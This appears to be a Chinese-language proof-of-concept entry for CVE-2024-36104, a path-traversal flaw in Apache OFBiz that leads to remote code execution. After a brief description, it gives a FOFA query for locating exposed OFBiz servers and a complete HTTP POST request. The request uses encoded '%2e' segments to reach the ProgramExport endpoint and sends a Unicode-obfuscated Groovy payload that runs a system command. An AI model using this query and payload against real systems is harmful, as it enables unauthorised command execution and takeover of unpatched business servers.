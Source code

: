 ## Apache-OFBiz存在路径遍历导致RCE漏洞(CVE-2024-36104)

Apache OFBiz是一个电子商务平台，用于构建大中型企业级、跨平台、跨数据库、跨应用服务器的多层、分布式电子商务类应用系统。是美国阿帕奇（Apache）基金会的一套企业资源计划（ERP）系统。该系统提供了一整套基于Java的Web应用程序组件和工具。Apache OFBiz 18.12.14之前版本存在命令执行漏洞，该漏洞源于org.apache.ofbiz.webapp.control.ControlFilter类对路径（请求URL中的特殊字符（如 ；、%2e）限制不当导致攻击者能够绕过后台功能点的过滤器验证，并通过/webtools/control/ProgramExport接口的编程导出功能执行任意Groovy代码获取系统权限。

## fofa

```
app="Apache_OFBiz"
```

## poc

```
POST /webtools/control/forgotPassword/%2e/%2e/ProgramExport HTTP/1.1
Host: 
user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Content-Type: application/x-www-form-urlencoded
 
groovyProgram=\u0074\u0068\u0072\u006f\u0077\u0020\u006e\u0065\u0077\u0020\u0045\u0078\u0063\u0065\u0070\u0074\u0069\u006f\u006e\u0028\u0027\u0069\u0064\u0027\u002e\u0065\u0078\u0065\u0063\u0075\u0074\u0065\u0028\u0029\u002e\u0074\u0065\u0078\u0074\u0029\u003b
```

![image-20240605095313271](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406050953399.png)